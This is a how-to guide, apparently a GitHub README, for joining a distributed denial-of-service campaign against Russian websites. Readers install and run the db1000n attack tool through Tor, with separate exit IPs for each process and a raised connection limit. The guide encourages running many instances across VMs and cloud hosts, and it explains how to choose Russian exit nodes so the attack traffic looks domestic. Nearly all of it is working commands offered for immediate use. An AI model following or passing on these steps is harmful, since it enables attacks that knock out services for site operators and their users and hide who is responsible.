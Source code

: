 The following instructions allow you to participate in russian sites attack without using any 3rd party VPN, and hence without sharing your personal data with suspicious VPN resource providers and without spending any money resources for such services.

- Demo at [YouTube](https://www.youtube.com/watch?v=AVqajaICvt0) using db1000n in clean Ubuntu VM.
- Similar [demo](https://www.youtube.com/watch?v=QKLkvq8iNo0) of using tor  with wrk load test tool.
- In fact, you may run almost any command line tool with torsocks in front. Exceptions are ping/hping and other tools that use raw or udp sockets.

If you have Windows computer - the same instructions work well with WSL distributions, so go ahead and configure Windows Subsystem for Linux in your Windows PC. Personally I am using Kali Linux distribution in WSL on all my Windows PCs (sample of using LattePanda Delta can be watched [here](https://youtu.be/v1v2OhcfwFw) ).

# Installing tor and db1000n

Install tools and download db1000n 
```bash
sudo apt-get -y update && \
sudo apt-get -y install tor torsocks wget curl && \
wget https://github.com/Arriven/db1000n/releases/download/v0.8.21/db1000n_0.8.21_linux_amd64.tar.gz -O db1000n.tar.gz && \
tar xvzf db1000n.tar.gz -C ./
```

# Setting up basic tor options 

Separate IP per torsocks process:
```bash
cat /etc/tor/torsocks.conf | sed 's/#IsolatePID/IsolatePID/g' | sudo tee /etc/tor/torsocks.conf > /dev/null 
```

And max connections limit up to max possible value:
```bash
echo "ConnLimit 32267" | sudo tee -a /etc/tor/torrc > /dev/null
```

# Start tor service
```bash
sudo service tor start
```

# Check you have each time new IP
Repeat this command multiple times to verify you indeed have each time new IP address:
```bash
torsocks curl -L jsonip.com
```

# Run
```bash
torsocks ./db1000n 
```
At this point you already running the attack. 
You may start multiple instances to get more load generated - due to `IsolatePID 1` option in torsocks, everything you start as separate process get separate nodes used, and as result separate IP address at the exit node.
You also may start such attack in multiple VMs (or EC2/Azure/GCE) instances to produce even more load.

The next topic is about configuring exit nodes at specific locations (for instance if you need to attack from RU internet segment).

#  Find Tor Nodes in specific country
Go to https://metrics.torproject.org/rs.html

Searching only russian outgoing relays: https://metrics.torproject.org/rs.html#search/country:ru

To use specific Nodes from the search result you may use Node's fingerprint or IP address in ExitNodes entry of the torrc config.

So to use Nodes 95.214.54.70, 82.165.116.173 and 185.32.222.237 addthe following entry to `/etc/tor/torrc` file:
```
ExitNodes 95.214.54.70,82.165.116.173,185.32.222.237
```

# More information about configuring Tor
- [torrc man page](https://manpages.debian.org/testing/tor/torrc.5.en.html)
- [torsocks.conf details](https://linux.die.net/man/5/torsocks.conf)
